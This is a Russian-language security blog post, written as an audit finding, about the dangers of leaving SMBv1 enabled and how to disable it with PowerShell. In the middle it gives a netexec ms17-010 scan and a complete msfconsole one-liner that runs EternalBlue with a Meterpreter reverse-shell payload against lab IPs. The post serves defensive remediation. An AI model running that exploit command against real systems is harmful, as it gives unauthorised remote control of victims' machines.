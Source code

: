 ```yaml
---
layout: post
title:  "SMB v1"
categories: jekyll update
image: /images/Remote_Exploit_MS17010_.jpg
---
```


Об ограничении использования протокола SMB v1

#### Недостаток
На ряде объектов ЛВС используется небезопасный протокол SMB v1.

#### Рекомендации
Ограничить использование в ЛВС протокола SMB v1. Рассмотреть возможность перехода на протоколы SMB v2/3.

#### Комментарии
Включенный SMBv1 — это серьезная угроза безопасности. Этот устаревший протокол разработан более 30 лет назад, и его уязвимости широко известны злоумышленникам. 

Если SMBv1 активен, злоумышленник может:  
**1. Использовать эксплойты**:  
   - Один из самых известных примеров — **EternalBlue**, эксплойт, который стал основой для распространения таких атак, как **WannaCry** и **NotPetya**. Эти атаки нанесли ущерб на миллиарды долларов, выводя из строя больницы, корпорации и государственные учреждения.  
   - Эксплойт позволяет злоумышленнику получить полный доступ к системе без авторизации.  

**2. Распространение по сети**:  
   - Атаки, использующие SMBv1, часто имеют червеподобный характер, что означает, что после компрометации одного устройства злоумышленник может быстро проникнуть на другие системы в вашей сети.  
   - Это особенно опасно для корпоративных сетей, где устройства могут быть взаимосвязаны.  

**3. Кража данных**:  
   - С помощью доступа через SMBv1 злоумышленник может перехватывать файлы, пароли и другую конфиденциальную информацию, что приводит к утечкам данных.  

**4. Запуск удаленного кода**:  
   - SMBv1 позволяет злоумышленнику запускать вредоносные программы или команды, фактически захватывая управление над системой.  

Для злоумышленника работающий SMBv1 — это как старая дверь с разбитым замком: она легко открывается, даже если остальная часть дома защищена.

#### Почему это критично?  
Атаки через SMBv1 особо опасны потому, что:  
- **Быстрая масштабируемость**: Одна уязвимая система может привести к компрометации всей сети.  
- **Невидимость**: В некоторых случаях атаки могут проходить незамеченными, особенно в poorly monitored environments.  
- **Непрямые последствия**: Утечка данных или отказ оборудования могут привести к финансовым потерям, репутационным рискам или даже уголовным расследованиям.  

Используя эксплойт EternalBlue злоумышленник может получить административный доступ к хосту с включенным протоколом SMB v1.

```
netexec smb 192.168.56.202 -M ms17-010
```

![](/images/smb_v1/Pasted%20image%2020241208155045.png)

```
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.56.202; set LHOST 192.168.56.200; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```

![](/images/smb_v1/Pasted%20image%2020241208155510.png)

#### Что делать?  
Отключение SMBv1 — это простой шаг, который может предотвратить катастрофу.  

**1. Проверить текущий статус SMBv1**:  
   На Windows-сервере или рабочей станции выполните команду в PowerShell:  
   ```powershell
   Get-WindowsFeature -Name FS-SMB1
   ```  
   Если SMBv1 включен, статус будет отображаться как *Installed*.  

**2. Отключить SMBv1**:  
   Выполните следующую команду в PowerShell:  
   ```powershell
   Disable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol" -NoRestart
   ```  

**3. Перезагрузите систему**, чтобы изменения вступили в силу.  

**4. Если в сети есть старые устройства, зависящие от SMBv1 (например, устаревшие сканеры), разработайте план их модернизации или замены.** 

#### Что видит злоумышленник после отключения SMBv1?  
Когда SMBv1 отключен:  
- При сканировании порта 445 я увижу, что SMB работает только на современных версиях (SMBv2 или SMBv3). Эти версии имеют встроенные механизмы защиты, такие как шифрование и аутентификация.  
- Эксплойты для SMBv1, такие как EternalBlue, больше не работают, что устраняет один из самых популярных методов атаки.  
- Моя атака замедлится или станет невозможной. Это заставит меня искать более сложные и менее очевидные уязвимости.

![](/images/smb_v1/Pasted%20image%2020241208162809.png)

В Windows 7 SMB v1 можно отключить  создав в реестре параметр `DWORD (32 бита)` в ветке реестра `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters`

#### Вывод:  
Оставлять SMBv1 включенным — это как оставить открытой дверь для злоумышленников. Вы теряете контроль над безопасностью сети, подвергая себя финансовым, репутационным и техническим рискам.  
Отключение SMBv1 — это быстрый и важный шаг, который моментально повышает защиту вашей инфраструктуры.  

Дополнительные ресурсы:

1. https://learn.microsoft.com/ru-ru/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
2. https://habr.com/ru/companies/servermall/articles/331906/
3. https://codeby.school/blog/informacionnaya-bezopasnost/ekspluataciya-uyazvimostey-klassa-ms17-010

Картинка

https://evilsaint.com/article/remote-exploit-ms17-010/index.html